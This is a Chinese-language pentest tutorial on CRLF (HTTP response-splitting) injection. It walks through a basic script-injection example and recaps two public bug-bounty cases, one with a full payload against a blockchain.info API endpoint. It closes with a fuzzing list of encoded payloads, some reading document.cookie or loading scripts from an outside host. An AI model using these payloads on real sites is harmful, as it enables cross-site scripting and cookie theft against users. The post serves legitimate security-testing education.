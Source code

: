 # Original
今天看国外案例的时候看到CRLF的案例，突然也想写一篇文章来记录一下。

# First What Is CRLF
```
CRLF是Carriage-Return Line-Feed的缩写，意思是回车换行，就是回车(CR, ASCII 13, \r) 换行(LF, ASCII 10, \n)，CRLF字符（%0d%0a）CRLF也被称为HTML拆分。
```
我们在渗透测试过程中可以寻找我们可控返回包header的请求
比如下面这个请求
```
GET /test/demo.php?url=https://c1h2e1.github.io
xxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxx
```
response

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
```
向上述这种返回包里面的header可控的请求我们就可以尝试进行CRLF注入。
```
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<script>alert(1)</script>
```
`Content-Length：0` 代表header 的结尾，返回包会变成这个样子
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
Content-Length: 0

<script>alert(1)</script>

```
这样我们就会触发我们的js并弹窗
这也就是最简单的一次**crlf注入**
# 案例
我在国外的漏洞库`pentester.land`搜集了2个CRLF案例
案例一
http://blog.shashank.co/2017/11/crlf-injection-in-bockchaininfo.html
```
GET /charts/total-bitcoins?cors=true&format=csv&lang=english HTTP/1.1
Host: api.blockchain.info
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
HTTP/2.0 200 OK
date: Tue, 31 Oct 2017 15:47:21 GMT
content-type: text/csv; charset=ascii
content-length: 10953
access-control-allow-origin: *
cache-control: public, max-age=60
content-disposition: attachment; filename="total-bitcoins.csv"
content-language: english


"lang"参数出现在了返回包里
现在为了注入CRLF 我们需要url编码一下\r\n "%0D%0A"
据此发送如下请求
https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0ATEST
新的header出现在了返回包里

这里存在CRLF注入漏洞 ，这样可以进行利用CRLF漏洞去执行JavaScript代码，去盗取cookie

最终的Payload

https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0AX-XSS-Protection:0%0AContent-Type:text/html%0AContent-Length:35%0A%0A%3Csvg%20onload%3Dalert%28document.domain%29%3E&__cf_waf_tk__=012853002E6loVIOSyqHfdxrvHJ87MshEnZI

```

案例二

https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62
```
因为详情写的没有请求包和发现过程
但我可以推算一下
他的请求包出现在了返回包中，比如http://test.com/aaaaaa
我们的aaaa会出现在header中，之后我们就可以测试CRLF的攻击了
利用思路和原来一样就不再写了
```
# KEEP FUZZING
我们在实战中可以选用fuzz 的手段进行挖掘和bypass
so我们再一次分享Payload
```
%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
```

# 总结
临时想到要写的一篇文章，研究新漏洞总结新思路！！
